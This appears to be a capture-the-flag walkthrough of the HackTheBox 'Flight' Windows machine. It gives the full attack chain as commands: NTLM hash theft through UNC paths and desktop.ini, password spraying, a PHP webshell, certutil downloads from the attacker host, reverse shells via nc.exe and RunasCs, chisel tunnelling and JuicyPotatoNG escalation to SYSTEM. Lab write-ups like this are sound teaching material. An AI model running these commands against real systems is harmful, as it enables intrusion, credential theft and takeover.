

# Summary
`Flight` is a Hard level difficulty Windows machine from [HackTheBox](https://app.hackthebox.com/machines/Flight). It's hosting a web application that's vulnerable to **file disclosure**. We captured the hashes of different users through different methods like **file disclosure**, **password spray** attack and **IconResource** tag in `desktop.ini` file. We got a reverse shell via uploading a **PHP** backdoor in `smb` share and then did some lateral movement using a tool called `RunasCs.exe`. After that, we found another service running on `tun0` that we didn't discover with `nmap`. We exploited it to get a shell access as a user that has **SeImpersonatePrivilege** which can be exploited to get access as Administrator. 


# Initial Scan
Firstly, we'll run a port scan with `nmap` - 
```nmap
nmap -p- -sV -sC -Pn 10.10.11.187
```

```Output
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
|_http-title: g0 Aviation
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-07 22:15:08Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
49721/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-05-07T22:16:03
|_  start_date: N/A
|_clock-skew: 6h59m58s
```

So, the box is running a **HTTP** service, **SMB** and **Active Directory** services. We'll add `flight.htb` to our hosts file - 
```bash
sudo subl /etc/hosts
```


Now, we can start our enumeration phase.


# Enumerating HTTP
Browsing `flight.htb` on our browser, we'll find a web page with no functionalities. We tried fuzzing directories with `ffuf` but we've found nothing really interesting. So, we'll trying fuzzing for virtual hosts - 
```ffuf
ffuf -v -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://FUZZ.flight.htb 
```

It looks like there's a subdomain called `school.flight.htb`. We'll add it to our `/etc/hosts` file. 


When we browse `school.flight.htb`, we'll see that it's using `index.php?view=` to grab other files. This is a very old method to use and a very bad practice for security since it's prone to **file inclusion** attacks. First, we will try requesting our own **HTTP** server with a `phpinfo()` script but it looks like the code is only being read and not executed.


So, it's a **file disclosure** vulnerability, not **Local File Inclusion**. 


# Exploiting HTTP 
Since we've found the vulnerability, we gotta find a way to exploit it. We'll try to read the `index.php` itself. We'll see a piece of code that's filtering the argument for `view` parameter - 


We can see that it's filtering stuffs like `..` and `filter` for path traversal attacks. We can also see that it's blocking the user from reading `htaccess` file. `\\` is also filtered to prevent hash stealing attacking using `responder`. But **Windows also allows the use of `//`** instead of `\\`. So, we'll set up our own `responder` server - 
```bash
sudo responder -I tun0 -v
```

and then request `/index.php?view=//10.10.16.16/dir/file` - 
```bash
curl -i -k -s http://school.flight.htb/index.php?view=//10.10.16.16/dir/file
```

Just like we thought, we captured a NTLM hash on our `responder` -


which can be cracked using tools like `john` or `hashcat`. 
```john
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

```hashcat
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```

After a few minutes of hash cracking, we should get the password of user *svc_apache* 


# Password Spraying
Now that we have the credentials of a user, we could start enumerating **SMB**. There're plenty of tools we can choose here. For this machine, I'll use `crackmapexec` -
```crackmapexec
crackmapexec smb -u svc_apache -p 'S@Ss!K@*t13' -d 'flight.htb' 10.10.11.187 --shares
```


We have readable access to `IPC$` and that means we can enumerate usernames with tools like `enum4linux` or `impacket-lookupsid` but we'll just keep using `crackmapexec` - 
```crackmapexec
crackmapexec smb -u svc_apache -p 'S@Ss!K@*t13' -d 'flight.htb' 10.10.11.187 --users
```


Now that we have a list of usernames and a password, maybe we should do a **password spray** attack to see if the password is being reused by other users. `crackmapexec` also has an option for this attack - 
```crackmapexec
crackmapexec smb -u userlist -p 'S@Ss!K@*t13' -d 'flight.htb' 10.10.11.187 --continue-on-success
```

We need to use `--continue-on-success` flag when we do a **password spray** because `crackmapexec` will stop at the first instance they found a match. It looks like we've found another user that's using the same password as *svc_apache*


# Enumerating SMB as S.Moon
When we enumerate **SMB** shares as *S.Moon* using `crackmapexec` again, we'll find that *S.Moon* has more privileges than *svc_apache* with a writable share called `Shared` 
```crackmapexec
crackmapexec smb -u S.Moon -p 'S@Ss!K@*t13' -d 'flight.htb' 10.10.11.187 --shares
```


We could try using `impacket-smbexec` since we've got a writable share but you'll see that it doesn't work in this case. It's happening because **SMB** server is configured to block uploading files with certain extensions (The file name `smbexec` uses to get RCE ends with `.bat`)

So, we'll start enumerating all the shares that we can read as *S.Moon*. We can use `spider_plus` module of `crackmapexec` to get a JSON file about all the files in all the shares that we can read. 

```crackmapexec
crackmapexec smb -u svc_apache -p 'S@Ss!K@*t13' -d 'flight.htb' 10.10.11.187 -M spider_plus
```
The output JSON file will be in `/tmp/cme_spider_plus` directory. We can use textutils like `jq` to parse the JSON file - 
```bash
cat /tmp/cme_spider_plus/10.10.11.187.json | jq ' . | map_values(keys)'
```

With this, we'll get names of the files present in **SMB** shares. Among them, I found something interesting called `desktop.ini`. We could use `desktop.ini` to steal **NTLM** hash of a user. Since we have a writable share, it looks like that's what we need to do next.


# Stealing NTLM hash with desktop.ini
There's a tool called [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) that generates files that can be used to steal the NTLM hash of another user. Hacktricks also has a [page](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds) about this topic. I won't be using `ntlm_theft` since I already have `desktop.ini` downloaded from `Users` share. We just need to append `IconResource=\\10.10.16.16\dir\file` to `desktop.ini` file. After uploading it to **SMB** server, we should capture the hash of another *C.Bum*


# Writable SMB Shares for *C.Bum*
After cracking the captured hash, we now could enumerate **SMB** as *C.Bum*.
```crackmapexec
crackmapexec smb -u c.bum -p 'Tikkycoll_431012284' -d 'flight.htb' 10.10.11.187 --shares
```



Looks like *C.Bum* has Read/Write permissions for both `Shared` and `Web` shares. `Web` share looks like the root directory for web applications - 


# Getting Shell as *svc_apache*
Since we already knew they're running **PHP**, we'll upload a PHP backdoor for code execution. It can be found in `/usr/share/webshells/php/simple-backdoor.php`. We'll copy it to our current working directory - 
```bash
cp /usr/share/webshells/php/simple-backdoor.php ./rev.php
```

And then, we'll upload it to `flight.htb` to see if we can get a code execution -


As we can see, our PHP backdoor is working perfectly. So, we'll upload `nc.exe` for a reverse shell. It is in the `/usr/share/windows-resources/binaries`. We'll also copy it to current directory - 
```bash
cp /usr/share/windows-resources/binaries/nc.exe .
```


```bash
rlwrap -cAr nc -lnvp 4242
```
Now, we get a shell as user *svc_apache*. We'll use `rlwrap` for `nc` listener on our machine because we can't use arrow keys in our `nc` shell without using `rlwrap` . 


# Getting Shell as *C.Bum*
I was kind of expecting we'd get a shell as *C.Bum* since it was the user with highest privileges we've got so far but instead we only got shell access as *svc_apache*. For Linux machines, we could simply use `su` after spawning a tty shell using either `script` command or `pty` module of `python`. For Windows, we could use `runas` but we couldn't pass our password for *C.Bum* since our shell is not tty.


For instances like this, there's a tool called [RunasCs](https://github.com/antonioCoco/RunasCs) that's written in C# (hense "Cs") that functions the same way as `runas` but we can pass the password directly in the command. It also has `-r` flag which can be used to redirect the connection to another server, acting essentially as a reverse shell for us. 

We'll download the tool to our `Kali` machine first and then we'll host it and download it to the victim machine. We can use `certutil` to download files on Windows -
```cmd
certutil -urlcache -f http://10.10.16.17/RunasCs.exe C:\Users\svc_apache\Downloads\RunasCs.exe
```

After downloading the tool, we'll run the tool with `-r` flag to connect to `nc` listener on our `Kali` machine -
```RunasCs.exe
RunasCs.exe c.bum Tikkycoll_431012284 powershell -r 10.10.16.17:4444
```


We'll get a reverse shell as *C.Bum* and `user.txt` is found in `C:\Users\c.bum\Desktop` folder.


# Enumeration for Lateral Movement
### Running PEAS Scripts
Now that I have a shell as *C.Bum*, a user with highest privilege so far, it's time to start enumeration for lateral movement. Since it's running **Active Directory** services, I decided to run [adPEAS](https://github.com/61106960/adPEAS) first. It's a `powershell` script so it's better if we have a `powershell` shell - 
```cmd
powershell -ep bypass   # Spawning a powershell if we're in cmd
```

After spawning a `powershell` shell, we'll import our script to run it -
```powershell
Import-Module .\adPEAS.ps1 OR . .\adPEAS.ps1

Invoke-adPEAS
```
Nothing interesting found with `adPEAS`. So, we'll try running [winPEAS.exe](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) next -


It looks like we can start/stop a service called `RmSvc`. We can check the permissions and status of a service using `sc` command - 
```cmd
sc qc RmSvc
```


We can try changing its `BINARY_PATH_NAME` with our reverse shell payload if we have enough privileges. Let's try it here - 
```cmd
sc config RmSvc binpath="C:\Users\svc_apache\Downloads\rev.exe"
```


But unfortunately, we don't have permissions to change the configurations of the service. 

### Enumerating Network Services
Since automated enumeration didn't work, we'll fall back to manual enumeration. I decided to check the file system hoping we'd find some interesting files/folders. 


We found two interesting folders in `C:\` partition, `inetpub` and `StorageReports`. There's nothing really interesting inside `StorageReports` except another empty folder but `inetpub` is an interesting one here. 

`inetpub` is default folder name for **Microsoft Internet Information Services (IIS)**. It contains web application contents and its source codes. It looks like there might be some web application running in the system. 


After checking `development` directory inside `inetpub`, it's certain that this is a web application. So, let check if there're services listening on localhost ( 127.0.0.1 ) - 
```cmd
netstat -ano
```

We'll be greeted with a wall of text with hundreds of UDP ports listening. This is probably happening because the system is the domain controller of the AD services. We can use `-p` flag to choose only a specified type of protocol to display - 
```cmd
netstat -ano -p TCP
```


If you remember our `nmap` scan output roughly, you'll notice that we didn't see port 8000 listening on IP Address 10.10.11.187 . When we try scanning again only for port 8000, you'll see that it's considered as **filtered** and that's the reason why we didn't see it in our [[#Initial Scan]] 


We can check [nmap documentations](https://nmap.org/book/man-port-scanning-basics.html) to see why a port is considered **filtered** in a scan. It doesn't work when we `curl` it from our machine - 


and when we `curl` it in the victim machine itself - 


we get a HTTP error back which means this port really is running a HTTP service.


# Port Forwarding
We can't access the web server directly from our machine or on the victim machine itself, we need to do some port forwarding. I like to use [chisel](https://github.com/jpillora/chisel) whenever `SSH` port forwarding is not an option. In this case, we'll need another shell as *C.Bum* since we'll be using one of them for running `chisel`.
```bash
chisel server --reverse --port 11111   # On Attacker machine
```

```cmd
chisel.exe cilent 10.10.16.17:11111 R:8000:0.0.0.0:8000
```


This will connect the `chisel` server on our `Kali` machine and it'll allow us to browse port 8000 on our localhost. Now, any traffic we send to localhost:8000 will be redirected towards port 8000 on the victim machine. 


# Getting Shell as *defaultapppool*
When we browse `http://127.0.0.1:8000` on our browser, we see another flight ticket service with no functions again. There's `contact.html` but it also doesn't work. But since we already knew the directory ( `C:\inetpub\development` ), we could write a reverse shell inside that directory and access it via our browser. 


It looks like we have writable for the `development` directory as *C.Bum*. We can also check the permissions using `icacls` or `accesschk.exe`.

```icacls
icacls C:\inetpub\development
```


`(W)` after `flight\C.Bum` means that we have writable access as *C.Bum* for this directory.

For `accesschk.exe`, we can download it from [Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) 

```cmd
accesschk.exe /accepteula -uvwqd C:\inetpub\development
```


Now we know for sure that we have writeable access, we'll download a reverse shell from `Kali` machine to the windows. Since the web application is running **IIS**, we should use an `.aspx` file. We'll download one from [here](https://github.com/borjmz/aspx-reverse-shell).


We'll edit our IP address and port number and download the file to the victim machine. When we try to browse `shell.aspx` through tunnelled web aplication, we'll get a reverse shell as *iis apppool\\defaultapppool*


# Shell as Administrator
*iis apppool\\defaultapppool* is a Microsoft virtual account used for managing **IIS**. These accounts usually have `SeImpersonatePrivilege` as a default. We can check the privileges with `whoami /priv` -


If a user has `SeImpersonatePrivilege`, they act as a machine account when they authorize over a network. We can see it in action when we try to access our `responder` server as *defaultapppool* -


We can use [RoguePotato](https://github.com/antonioCoco/JuicyPotatoNG) to exploit this vulnerability. Here's a blog about other [Potatoes](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) if you're interested.
1. First, we'll download it to `Kali` -
```bash
wget https://github.com/antonioCoco/JuicyPotatoNG/releases/download/v1.1/JuicyPotatoNG.zip
```

2. Unzip the file and host it with `python` -
```bash
unzip JuicyPotatoNG.zip
python3 -m http.server 80
```

3. Download **both** `JuicyPotatoNG.exe` and `nc.exe` to Windows machine - 
```cmd
certutil.exe -urlcache -f http://10.10.16.17/JuicyPotatoNG.exe JuicyPotatoNG.exe
certutil.exe -urlcache -f http://10.10.16.17/nc.exe nc.exe
```

4. Run `JuicyPotatoNG.exe` -
```cmd
JuicyPotatoNG.exe -t * -p "C:\users\public\nc.exe" -a "10.10.16.17 53 -e cmd"
```


We'll get a shell as *NT AUTHORITY\\SYSTEM*. `root.txt` can be found in `C:\Users\Administrator\Desktop`

---
